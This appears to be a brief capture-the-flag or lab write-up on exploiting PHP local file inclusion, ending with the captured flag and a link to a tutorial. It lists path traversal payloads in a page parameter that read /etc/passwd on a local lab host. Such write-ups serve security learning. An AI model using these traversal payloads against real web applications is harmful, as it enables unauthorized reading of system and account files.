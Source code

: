 # PHP File Inclusion exploit
PHP's include() function can be exploited to view seemingly hidden files, such as configuration files.  
/etc/passwd file stores essential information, which required during login - it stores user account information.

# Local File Inclusion

### Step 1
> * Attack
> 1. http://0.0.0.0/?page= **included_file**
> * trial and error with directory hierarchy:  
> _/etc/passwd ../../etc/passwd ../../../etc/passwd_  
> _http://0.0.0.0/?page=../../../../../../../etc/passwd_  
**Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0**

* https://null-byte.wonderhowto.com/how-to/exploit-php-file-inclusion-web-apps-0179955/